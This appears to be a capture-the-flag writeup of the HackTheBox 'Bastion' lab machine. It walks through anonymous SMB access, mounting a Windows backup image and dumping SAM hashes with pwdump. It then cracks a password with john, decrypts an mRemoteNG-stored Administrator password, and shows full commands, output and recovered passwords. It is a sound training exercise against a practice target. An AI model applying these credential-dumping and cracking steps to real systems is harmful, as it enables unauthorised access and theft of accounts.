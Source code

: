 ```yaml
---
layout: post
title: HackTheBox Bastion (10.10.10.134) Writeup
description: >
  Hackthebox Bastion Writeup
image: /assets/img/bastion.png
noindex: false
---
```


<center><h3>Summary</h3></center>
<br>

- Access an open SMB share to find a full Windows backup file
- Grab the SAM hases and crack the password
- mRemoteNG is install and the password is stored inside the configuration file
- Use credentials to SSH as Administrator
<br>
First start with an Nmap scan

```
# Nmap 7.70 scan initiated Wed May 22 14:41:53 2019: nmap -sV -sC -T4 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.038s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -46m34s, deviation: 1h09m15s, median: -6m36s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-22T20:35:28+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-22 14:35:27
|_  start_date: 2019-05-19 22:23:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 22 14:42:11 2019 -- 1 IP address (1 host up) scanned in 17.97 seconds
```
<br>
A few ports open. Lets take a look at SMB. Running a quick smbmap I will see that there is a <b>Backups</b> directory that I have <b>READ, WRITE</b> privileges to.

```
# smbmap -u invalid -H 10.10.10.134
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
Next thing I did was connect to the <b>Backups</b> share folder. Once connected I was able to see a few files but the ones that interested me were the <b>notes.txt</b> and <b>WindowsImageBackup</b>.
```
# smbclient -U none //10.10.10.134/Backups password
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 17:48:51 2019
  ..                                  D        0  Tue Sep 17 17:48:51 2019
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  rEFqURGnaS                          D        0  Tue Sep 17 17:48:51 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019
  ZWSfrgOAqs                          D        0  Tue Sep 17 17:42:12 2019

                7735807 blocks of size 4096. 2757009 blocks available
```
The <b>notes.txt</b> file mentions that I dont need to donwload the entire Windows Backups image to our host machine.
```
smb: \> more note.txt
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Instead of wasting time and downloading the files from the share, I decided to mount it. Before I was able to mount it I had to install a few things
```
# sudo apt install nfs-common
# sudo apt install cifs-utils
# sudo apt install libguestfs-tools
```
Once all those were downloaded I was able to mount the drive
```
mount -t cifs //10.10.10.134/Backups /mnt/Bastion
```
If you look around the <b>WindowsImageBackup</b> directory the you should ifnd two <b>.vhd</b> files.
```
# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
<output omitted>
```
To mount the <b>.vhd</b> files I used the tool <b>guestmount</b>.
```
# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
After enumerating around the box I realized I wont find any flags at this time. Next step was to dump the hashes from the SAM file. The SAM file is located at <b>Windows/System32/config</b> but it can't be access like any old file. To extract the hashes I will use a tool called <b>pwdump</b>.
```
# pwdump SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Next I am going to use john to crack the hash. First I need to copy the hashes to a text file and the start john
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```
Now I have a password <b>bureaulampje</b> for the user <b>L4mpje</b>. I can use this to SSH in. From this point I can grab the user flag located at <b>C:\Users\L4mpje\Desktop</b>.
```
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir                                                       
 Volume in drive C has no label.                                                                 
 Volume Serial Number is 0CB3-C487                                                               

 Directory of C:\Users\L4mpje\Desktop                                                            

22-02-2019  16:27    <DIR>          .                                                            
22-02-2019  16:27    <DIR>          ..                                                           
23-02-2019  10:07                32 user.txt                                                     
               1 File(s)             32 bytes                                                    
               2 Dir(s)  11.292.332.032 bytes free                                               
```
After doing some serious enumerating I was able to find that mRemoteNG is installed on the system. Some further enumeration revealed a XML configuration file located at <b>C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml</b>. Reading the XML file I noticed the username <b>Administrator</b> along with something that resembles a password hash.
```
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a                     -44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVq                                                        
tKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP                 " PuttySession="Default Settings" Port="3389" ConnectToConsole="false"
```
My next thought was to decrypt the hash. After consulting my friend google, I was able to find something that could help me. These two links will help decrypt the password *[One](https://github.com/kmahyyg/mremoteng-decrypt)* and *[Two](https://github.com/kmahyyg/mremoteng-decrypt/releases)*.

Once you have everything ready I can now decrypt the hash.
```
# java -jar decipher mremoteng.jar aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

User input: aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Use default password for cracking...
Decrypted output: thXLHM96BeKL0ER2
```
Last I can use the decrypted password to log in as Administrator and grab the flag. You can find the root flag in <b>C:\Users\Administrator\Desktop</b>
```
administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.                                                                               
 Volume Serial Number is 0CB3-C487                                              

 Directory of C:\Users\Administrator\Desktop                                                              

23-02-2019  10:40    <DIR>          .                                                  
23-02-2019  10:40    <DIR>          ..                                                               
23-02-2019  10:07                32 root.txt                                                            
               1 File(s)             32 bytes                                                             
               2 Dir(s)  11.291.758.592 bytes free
```
<br><br><br>
